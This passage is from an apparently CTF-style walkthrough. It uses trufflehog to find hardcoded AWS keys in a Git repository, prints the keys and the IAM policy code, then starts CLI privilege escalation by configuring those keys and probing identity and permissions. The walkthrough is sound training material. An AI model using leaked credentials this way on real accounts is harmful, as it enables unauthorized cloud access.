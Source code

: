 
## Trufflehog Search
“Use Trufflehog to find secrets in a Git repo. Work with Jill Underpole in the Cloud Ring for hints. What's the name of the file that has AWS credentials?”

Using a simple `trufflehog git https://haugfactory.com/orcadmin/aws_scripts` we can determine that the file that has AWS credentials is `put_policy.py`.

The information in the script is:
```python
iam = boto3.client('iam',
    region_name='us-east-1',
    aws_access_key_id="AKIAAIDAYRANYAHGQOHD",
    aws_secret_access_key="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",
)
# arn:aws:ec2:us-east-1:accountid:instance/*
response = iam.put_user_policy(
    PolicyDocument='{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":["ssm:SendCommand"],"Resource":["arn:aws:ec2:us-east-1:748127089694:instance/i-0415bfb7dcfe279c5","arn:aws:ec2:us-east-1:748127089694:document/RestartServices"]}]}',
    PolicyName='AllAccessPolicy',
    UserName='nwt8_test',
)
```

## Exploitation via AWS CLI
“Flex some more advanced AWS CLI skills to escalate privileges! Help Gerty Snowburrow in the Cloud Ring to get hints for this challenge.”

First step is to use the previously-found credentials to log into `us-east-1`:

```
elf@daab70bd48d7:~$ aws configure
AWS Access Key ID [None]: AKIAAIDAYRANYAHGQOHD
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]: table
elf@daab70bd48d7:~$ 
elf@daab70bd48d7:~$ aws sts get-caller-identity
{
    "UserId": "AIDAJNIAAQYHIAAHDDRA",
    "Account": "602123424321",
    "Arn": "arn:aws:iam::602123424321:user/haug"
}
elf@daab70bd48d7:~$ 
```

Next, we need to list the managed policies that are attached to our user. This command accepts only a username as an argument. I was able to find my username by performing an action outside of my permissions:
```
elf@daab70bd48d7:~$ aws iam get-user
An error occurred (AccessDeniedException) when calling the GetUser operation: User: arn:aws:iam::602123424321:user/haug is not authorized to perform: iam:GetUser on resource: arn:aws:iam:us-east-1:602123424321:* because no identity-based policy allows the iam:GetUser action
```
